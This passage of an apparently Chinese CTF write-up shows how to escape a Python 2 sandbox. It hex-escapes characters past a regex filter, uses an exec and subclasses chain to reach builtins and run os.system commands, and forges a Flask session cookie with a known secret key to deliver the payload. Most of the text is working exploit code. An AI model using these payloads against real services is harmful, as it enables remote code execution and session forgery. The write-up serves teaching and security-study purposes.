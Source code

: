 成功的打印出了结果并且没有被检测出来，`\\x5b`在第一层字符串里应该是被看成字符串`\x5b`,然后在第二次又被解析成`[`，所以能绕过检测并且达到效果。

![10](10.png)

那只要把print改成exec就可以把b当成一个语句执行了。

```python
if __name__ == '__main__':
    recipe = '''
b = "builtins = \\x5bi for i in \\x28)\\x2e\\x5f\\x5fclass\\x5f\\x5f\\x2e\\x5f\\x5fbases\\x5f\\x5f\\x5b0]\\x2e\\x5f\\x5fsubclasses\\x5f\\x5f\\x28) if i\\x2e\\x5f\\x5fname\\x5f\\x5f=='catch\\x5fwarnings']\\x5b0]\\x28)\\x2e\\x5fmodule\\x2e\\x5f\\x5fbuiltins\\x5f\\x5f"
exec b
print builtins
'''
    if re.search(r'\[|\(_\.', recipe):
        print 'invalid payload'
    calc(recipe)
```

成功的把builtins带出来了。

也可以通过这个来执行系统命令。

```python
if __name__ == '__main__':
    recipe = '''
b = "builtins = \\x5bi for i in \\x28)\\x2e\\x5f\\x5fclass\\x5f\\x5f\\x2e\\x5f\\x5fbases\\x5f\\x5f\\x5b0]\\x2e\\x5f\\x5fsubclasses\\x5f\\x5f\\x28) if i\\x2e\\x5f\\x5fname\\x5f\\x5f=='catch\\x5fwarnings']\\x5b0]\\x28)\\x2e\\x5fmodule\\x2e\\x5f\\x5fbuiltins\\x5f\\x5f"
exec b
exec "builtins\\x5b'\\x5f\\x5fimport\\x5f\\x5f']\\x28'os')\\x2esystem\\x28'whoami')"
'''
    if re.search(r'\[|\(_\.', recipe):
        print 'invalid payload'
    calc(recipe)
```

![11](11.png)


### 构造真正的payload

因为知道密钥，所以思路就是本地搭一个用它的密钥的flask app，通过访问它可以把我们做的payload变成session然后用session发请求

核心代码如下

```python
app.config['SECRET_KEY'] = environ.get('SECRET_KEY', 'eA2b8A2eA1EADa7b2eCbea7e3dAd1e')

@app.route("/")
def index():
    session["ingredient"] = 'a'
    session["measurements"] = \
'''1
exec "i={}\\x2e\\x5f\\x5fclass\\x5f\\x5f\\x2e\\x5f\\x5fbase\\x5f\\x5f\\x2e\\x5f\\x5fsubclasses\\x5f\\x5f\\x28)\\x5b59]\\x28)\\x2e\\x5fmodule\\x2e\\x5f\\x5fbuiltins\\x5f\\x5f\\x5b'\\x5f\\x5fimport\\x5f\\x5f']\\ni\\x28'os')\\x2esystem\\x28'sleep 3')"'''
    return "<p>{}</p>".format(session["measurements"])
```
